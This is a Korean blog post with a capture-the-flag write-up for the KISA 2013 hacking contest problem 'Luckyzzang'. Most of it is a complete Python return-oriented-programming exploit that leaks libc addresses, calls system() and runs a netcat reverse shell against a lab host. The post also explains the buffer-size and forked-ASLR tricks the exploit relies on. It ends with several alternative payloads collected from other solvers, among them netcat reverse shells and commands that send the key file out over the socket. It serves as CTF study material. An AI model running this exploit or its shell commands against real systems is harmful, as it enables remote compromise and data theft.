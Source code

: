 ```yaml
---
layout: post
title: KISA 해킹방어대회 2013 5번(Luckyzzang)
comments: true
---
```


{% highlight python %}
import socket, struct
p  = lambda x: struct.pack('<L', x)
up = lambda x: struct.unpack('<L', x)[0]

command = 'nc 192.168.99.1 3334 | /bin/bash | nc 192.168.99.1 3333'

ppppr = p(0x080489cc)
sock_fd = p(4)
send_plt = p(0x08048610)
recv_plt = p(0x080485F0)
puts_plt = p()
puts_got = p()

buffer_size = 1032

HOST = '192.168.99.133'
PORT = 7777

puts_addr = 0xb759c190
'''
payload = send_plt + 'AAAA' + sock_fd + puts_got + p(4) + p(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

print s.recv(6)
s.send('D' * (buffer_size + 4) + payload)

puts_addr = up(s.recv(4))

print 'puts_addr = 0x%08x' % puts_addr

s.close()
'''

system_addr = puts_addr + 0xb7e583b0 - 0xb7e7e190
print 'system_addr = 0x%08x' % system_addr

my_buf = puts_addr + 0x144e70 + 0x946
print 'my_buf = 0x%08x' % my_buf

payload  = recv_plt + ppppr + sock_fd + puts_got + p(4) + p(0)
payload += recv_plt + ppppr + sock_fd + p(my_buf) + p(4) + p(0)
payload += send_plt + 'AAAA' + p(my_buf)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

print s.recv(6)
s.send('D' * (buffer_size + 4) + payload)

print 'system_addr send'
s.send(p(system_addr))

print 'command send'
s.send(command + '\x00')

print 'wait recv'
print s.recv(1024)

s.close()
{% endhighlight %}

문제를 푸는 방법은 정말 많지만 내가 풀 방법은 매우 간단한 ROP이다. 

첫번째로 할 일은 puts의 got값을 가져오는 것이다. 해당 ROP 값을 가져왔을 

코드를 보면 구지 2번을 puts를 구해오는 소켓 한개, 공격하는 소캣 한개 해서 총 2개를 한 이유는 사용가능한 payload의 길이 때문이다.

rand() % 100 + 1025 만큼이 recv를 해오는데 ret을 덮어 씌우기 위해선 1036의 dummy가 필요하다.

rand()에 따라 사이즈가 recv하는 크기가 변동하는데 그 범위는 1025 ~ 1124이다. 최대값인 1124에서 dummy를 제외하면 88byte가 최대라는 것이다. 

따라서 payload가 짧으면 짧을 수록 좋기 때문에 이렇게 했다고 말할 수 있다.

그리고 fork를 했을때 child는 parent의 aslr을 그대로 가져 오기 때문에 사용할 수 있는 방법인 것이다.

만약 이 문제에서 stack canary가 있었더라도 child가 갖는 stack canary가 parent의 canary와 같다는 것 때문에 충분히 풀 수 있을 것이다.

다른 사람들은 명령어를 담는 buffer를 bss를 이용했는데 나는 좀 무식하게... libc.so.6의 rw-p영역의 메모리를 사용했다...(libc의 함수 주소를 가져오니 그냥 사용해도 괜찮겠다 싶어서 그랫습니다..)

그리고 command의 경우는 예전에 BOB에서 배웠던 방식을 그대로 했던 것인데 다른 풀이를 봤을때는 다음과 같은 command가 있더라.

{% highlight python %}
cmd = "cat key>&4\x00" # <http://blog.tunz.kr/62>
cmd = "ls |nc <IP> 10101" # <http://yumere.tistory.com/entry/2013-HDCON-5%EB%B2%88-luckyzzang-exploit>
cmd = "nc 192.168.32.43 9090 |/bin/sh |nc 192.168.32.43 9091;" # <http://blog.sweetchip.kr/321> 헉
cmd = "/bin/sh -i <&4 >&4 2>&4" # <http://gooverto.tistory.com/entry/hdcon-luckyzzang-r2dl-exploit>
# 추가 제보 부탁드립니당 ㅎㅎ
{% endhighlight %}
